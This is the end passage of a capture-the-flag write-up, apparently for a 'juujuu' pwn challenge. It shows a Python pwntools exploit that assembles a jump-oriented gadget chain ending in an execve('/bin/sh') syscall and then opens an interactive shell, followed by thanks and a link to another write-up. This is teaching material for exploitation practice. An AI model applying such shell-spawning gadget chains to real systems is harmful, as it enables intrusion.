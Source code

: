 ```python
payload += xors_pop_rbp_jmp_rbp
payload += new_dispatcher_gadget
payload += pop_rcx_jmp_rcx
payload += new_dispatcher_gadget
payload += add_rax*3
payload += inc_rax_pop_rcx
payload += new_dispatcher_gadget
payload += inc_rax_pop_rcx
payload += new_dispatcher_gadget
payload += inc_rax_pop_rcx
payload += new_dispatcher_gadget
payload += inc_rax_pop_rcx
payload += new_dispatcher_gadget
payload += inc_rax_pop_rcx
payload += new_dispatcher_gadget

payload += small_xor
payload += second_dispatcher_in_stack
payload += p64(0x00)
payload += pop_rdi_jmp_rbp
payload += binsh
payload += p64(0x00)
payload += syscall

payload = payload.ljust(0xf0, "A")

payload += "/bin/sh\x00"
payload += second_dispatcher
payload += dispatcher_gadget
payload += movrsprsp
payload += p64(bufstart)
#print(payload)


p.sendline(payload)

p.interactive()
```

Once again thanks to [dplastico](https://dplastico.me/), this would not have been possible without his help. He made a writeup for this challenge as well! It's in spanish and you can check it out [here](https://dplastico.me/writeup-juujuu-pwnday01-soluciones/). 

I hope the challenge and write up were enjoyable, if you have any questions don't hesitate to contact me on any of my socials. 
